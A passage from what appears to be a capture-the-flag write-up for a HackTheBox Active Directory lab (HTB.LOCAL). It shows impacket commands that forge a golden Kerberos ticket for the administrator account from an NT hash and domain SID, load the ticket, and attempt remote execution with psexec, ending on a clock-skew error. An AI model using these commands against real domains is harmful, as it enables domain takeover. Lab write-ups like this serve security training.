 ![](./IMG/64.png)

- administrator 
```
impacket-ticketer -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain HTB.LOCAL administrator
```

![](./IMG/65.png)

```
export KRB5CCNAME=administrator.ccache
```

![](./IMG/66.png)


2. Execute with psexec, it failed with the different time between target and my host

```
impacket-psexec htb.local/nonexist@forest -k -no-pass
```

![](./IMG/62.png)


3. Troubleshooting for time error 

> Error message 
```
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
